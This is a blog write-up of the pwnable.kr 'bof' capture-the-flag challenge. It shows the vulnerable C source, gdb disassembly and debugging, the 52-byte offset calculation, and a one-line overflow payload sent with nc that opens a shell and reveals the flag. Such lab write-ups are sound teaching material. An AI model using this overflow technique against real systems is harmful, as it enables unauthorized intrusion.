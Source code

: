 |[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

# **Toddler's Bottle - bof**

Toddler's Bottle is one of the CTF games at pwnable.kr website.  I am going to do the game is namely bof.  There are already many writeups in the internet.  However, I am going to explain what I learnt from this game.

[Website](http://pwnable.kr/play.php) (Select bof)
[Source Code](http://pwnable.kr/bin/bof.c)
[Binary](http://pwnable.kr/bin/bof)

[Exploit Server](pwnable.kr:9000)

The source code of the bof binary is provided.  I examine the source code and found out that we are going to replace the "key" from "0xdeadbeef" to "0xcafebabe".  The "overflowme" variable is 32 characters long.  No matter what you entered in the "overflowme" variable, the "key" is not changed as it is hard coded.  It is a buffer overflow challenge.  However, we are not going to take control of the return address this time.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

Load the gdb with PEDA and check with "checksec".  It is confirmed that the NX is enabled with another restrictions.

```bash
gdb -q ./bof
```
```bash
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : Partial
```

Run ```disass main``` to disassemble the ```main``` function.

```bash
disass main
```
```bash
gdb-peda$ disass main
Dump of assembler code for function main:
   0x0000068a <+0>:     push   ebp
   0x0000068b <+1>:     mov    ebp,esp
   0x0000068d <+3>:     and    esp,0xfffffff0
   0x00000690 <+6>:     sub    esp,0x10
   0x00000693 <+9>:     mov    DWORD PTR [esp],0xdeadbeef
   0x0000069a <+16>:    call   0x62c <func>
   0x0000069f <+21>:    mov    eax,0x0
   0x000006a4 <+26>:    leave  
   0x000006a5 <+27>:    ret    
End of assembler dump.
gdb-peda$
```

Run ```disass func``` to disassembe the ```func``` function.

```bash
disass func
```
```bash
gdb-peda$ disass func
Dump of assembler code for function func:
   0x0000062c <+0>:     push   ebp
   0x0000062d <+1>:     mov    ebp,esp
   0x0000062f <+3>:     sub    esp,0x48
   0x00000632 <+6>:     mov    eax,gs:0x14
   0x00000638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:    xor    eax,eax
   0x0000063d <+17>:    mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:    call   0x645 <func+25>
   0x00000649 <+29>:    lea    eax,[ebp-0x2c]
   0x0000064c <+32>:    mov    DWORD PTR [esp],eax
   0x0000064f <+35>:    call   0x650 <func+36>
   0x00000654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x0000065b <+47>:    jne    0x66b <func+63>
   0x0000065d <+49>:    mov    DWORD PTR [esp],0x79b
   0x00000664 <+56>:    call   0x665 <func+57>
   0x00000669 <+61>:    jmp    0x677 <func+75>
   0x0000066b <+63>:    mov    DWORD PTR [esp],0x7a3
   0x00000672 <+70>:    call   0x673 <func+71>
   0x00000677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
   0x0000067a <+78>:    xor    eax,DWORD PTR gs:0x14
   0x00000681 <+85>:    je     0x688 <func+92>
   0x00000683 <+87>:    call   0x684 <func+88>
   0x00000688 <+92>:    leave  
   0x00000689 <+93>:    ret    
End of assembler dump.
gdb-peda$
```

In the ```func``` function, the following codes that I am interested in.

```bash
0x00000649 <+29>:    lea  eax,[ebp-0x2c]
0x0000064c <+32>:    mov  DWORD PTR [esp],eax
0x0000064f <+35>:    call 0x650 <func+36>
0x00000654 <+40>:    cmp  DWORD PTR [ebp+0x8],0xcafebabe
0x0000065b <+47>:    jne  0x66b <func+63>
```

The ```eax,[ebp-0x2c]```, ```ebp-0x2c``` may be contained the value of ```overflowme``` variable and saved in eax register.

The ```DWORD PTR [ebp+0x8],0xcafebabe```, ```ebp+0x8``` may be contained the value of key, that is ```0xdeadbeef```.

I am going to set a breakpoint at ```0x0000065b <+47>```.

```bash
b *func+47
```
```bash
gdb-peda$ b *func+47
Breakpoint 1 at 0x65b
gdb-peda$ r
Starting program: /root/20181212/bof
overflow me :
helloworld
```

Then ```r``` run the program and is prompted for entering ```helloworld``` as the ```overflowme```.

```bash
[----------------------------------registers-----------------------------------]
EAX: 0xbffff30c ("helloworld")
EBX: 0x0
ECX: 0xb7fab5c0 --> 0xfbad2288
EDX: 0xb7fac89c --> 0x0
ESI: 0xb7fab000 --> 0x1d5d8c
EDI: 0x0
EBP: 0xbffff338 --> 0xbffff358 --> 0x0
ESP: 0xbffff2f0 --> 0xbffff30c ("helloworld")
EIP: 0x40065b (<func+47>:   jne    0x40066b <func+63>)
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40064c <func+32>:  mov    DWORD PTR [esp],eax
   0x40064f <func+35>:  call   0xb7e3c5c0 <_IO_gets>
   0x400654 <func+40>:  cmp    DWORD PTR [ebp+0x8],0xcafebabe
=> 0x40065b <func+47>:  jne    0x40066b <func+63>
 | 0x40065d <func+49>:  mov    DWORD PTR [esp],0x40079b
 | 0x400664 <func+56>:  call   0xb7e12870 <__libc_system>
 | 0x400669 <func+61>:  jmp    0x400677 <func+75>
 | 0x40066b <func+63>:  mov    DWORD PTR [esp],0x4007a3
 |->   0x40066b <func+63>:  mov    DWORD PTR [esp],0x4007a3
       0x400672 <func+70>:  call   0xb7e3ce40 <_IO_puts>
       0x400677 <func+75>:  mov    eax,DWORD PTR [ebp-0xc]
       0x40067a <func+78>:  xor    eax,DWORD PTR gs:0x14
                                                                  JUMP is taken
[------------------------------------stack-------------------------------------]
0000| 0xbffff2f0 --> 0xbffff30c ("helloworld")
0004| 0xbffff2f4 --> 0x0
0008| 0xbffff2f8 --> 0x0
0012| 0xbffff2fc --> 0xb7dd1b00
0016| 0xbffff300 --> 0x9 ('\t')
0020| 0xbffff304 --> 0xbffff578 ("/root/20181212/bof")
0024| 0xbffff308 --> 0xb7e05d09 (<__new_exitfn+9>:  add    ebx,0x1a52f7)
0028| 0xbffff30c ("helloworld")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
 
Breakpoint 1, 0x0040065b in func ()
```

After entering the ```helloworld```, I am going to examine the ```eax``` and ```ebp+0x8```.

```bash
x/x $ebp+0x8

x/s $eax
```
```bash
gdb-peda$ x/x $ebp+0x8
0xbffff340: 0xdeadbeef
gdb-peda$ x/s $eax
0xbffff30c: "helloworld"
gdb-peda$
```

The result confirmed what I suspected.  I am going to check the offset the two addresses with Python.  The offset is ```52```.

```python
root@kali:~# python
Python 2.7.15+ (default, Nov 28 2018, 16:27:22)
[GCC 8.2.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0xbffff340 - 0xbffff30c
52L
>>>
```

Once get the offset, I am going to overwrite the ```0xdeadbeef``` with ```0xcafebabe``` with the exploit code.  The ```cat``` command is for the interactive with the shell.

```bash
(python -c 'print "A"*52 + "\xbe\xba\xfe\xca"'; cat -) | nc pwnable.kr 9000
```bash
root@kali:~/20181212# (python -c 'print "A"*52 + "\xbe\xba\xfe\xca"'; cat -) | nc pwnable.kr 9000
id
uid=1008(bof) gid=1008(bof) groups=1008(bof)
ls
bof
bof.c
flag
log
log2
super.pl
cat flag
daddy, I just pwned a buFFer :)
```

The flag is :
```
<b>daddy, I just pwned a buFFer :)
```

[![](https://img.youtube.com/vi/SKZa5eLuO90/0.jpg)](https://www.youtube.com/watch?v=w1T9B9bixjA)


|[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|
